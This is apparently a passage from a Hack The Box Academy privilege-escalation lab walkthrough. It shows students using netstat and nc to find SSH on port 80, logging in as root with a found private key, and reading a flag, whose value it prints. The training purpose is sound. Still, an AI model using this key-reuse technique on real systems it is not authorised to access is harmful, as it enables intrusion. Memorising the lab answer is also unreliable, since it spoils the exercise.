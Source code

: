 Thus, students need to abuse this misconfiguration by using SSH to login as the root user. To do so, students need to know the active connections on the spawned target machine, and what ports they are listening on by using `netstat`, finding port `80` listening for connections:

Code: shell

```shell
netstat -antpl
```

```
ser2@ng-413848-gettingstartedprivesc-j3rjw-6649d4bcf8-xszvs:/home/user1$ netstat -antpl

(No info could be read for "-p": geteuid()=1001 but you should be root.)
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
tcp        0    268 10.244.2.245:80         159.65.30.65:35600      ESTABLISHED -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -
```

Before attempting to connect to port 80, students can grab the banner of the service running using `nc`, finding it to be SSH (students can use `Ctrl` + `c` to exit from the connection):

Code: shell

```shell
nc localhost 80
```

```
user2@ng-413848-gettingstartedprivesc-j3rjw-6649d4bcf8-xszvs:/home/user1$ nc localhost 80

SSH-2.0-OpenSSH_8.2p1 Ubuntu-4ubuntu0.1
```

Thus, at last, students need to SSH as the root user via port `80` on localhost of the spawned target machine and read the flag file "flag.txt", finding it to be `HTB{pr1v1l363_35c4l4710n_2_r007}`:

Code: shell

```shell
ssh -i id_rsa root@localhost -p 80
Y
cat flag.txt
```

```
user2@gettingstartedprivesc-413848-767c4c8dff-mwwxb:/root/.ssh$ ssh -i id_rsa root@localhost -p 80

The authenticity of host '[localhost]:80 ([::1]:80)' can't be established.
ECDSA key fingerprint is SHA256:uPhd/rA1lfr98Kwr8nmqVSC+5TiJyW1d2Bb/8nm7F/U.
Are you sure you want to continue connecting (yes/no/[fingerprint])? Yes
Warning: Permanently added '[localhost]:80' (ECDSA) to the list of known hosts.
Welcome to Ubuntu 20.04.1 LTS (GNU/Linux 4.19.0-17-cloud-amd64 x86_64)
<SNIP>
root@gettingstartedprivesc-413848-767c4c8dff-mwwxb:~# cat flag.txt

HTB{pr1v1l363_35c4l4710n_2_r007}
```
